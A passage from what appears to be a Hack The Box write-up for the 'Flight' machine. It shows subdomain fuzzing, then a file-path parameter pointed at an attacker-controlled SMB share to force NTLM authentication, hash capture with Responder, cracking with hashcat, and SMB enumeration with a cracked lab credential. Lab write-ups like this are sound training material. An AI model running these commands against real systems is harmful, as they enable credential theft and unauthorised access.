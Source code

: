 ![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250906165924.png)

nothing is working on this site, so I started to directory busting

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250906170026.png)

also scan with feroxbuster but nothing special. Let's search for subdomains:

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.flight.htb" -u http://flight.htb -fs 7069
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250906170056.png)

And I gout school subdomain add it to /etc/hosts

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250906170358.png)

after clicking on home page we see oportunity to LFI

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250906171407.png)

but after testing we go message suspicious activity blocked

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250906171458.png)

Trying to connect with my machine from here and it is working, so tried to ntlm steal and I was able to steal ntlmv2 hash

```
http://school.flight.htb/index.php?view=//10.10.14.8/hello
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250906173044.png)

```
responder -I tun0 -A 
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250906173118.png)

I was able to crack it via hashcat 

```
hashcat hash /usr/share/wordlists/rockyou.txt -m 5600 --show
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250906173303.png)

## SMB

Starting with enumerating users and shares

```
nxc smb 10.10.11.187 -u 'SVC_APACHE' -p 'S@Ss!K@*t13' --users
nxc smb 10.10.11.187 -u 'SVC_APACHE' -p 'S@Ss!K@*t13' --shares
```

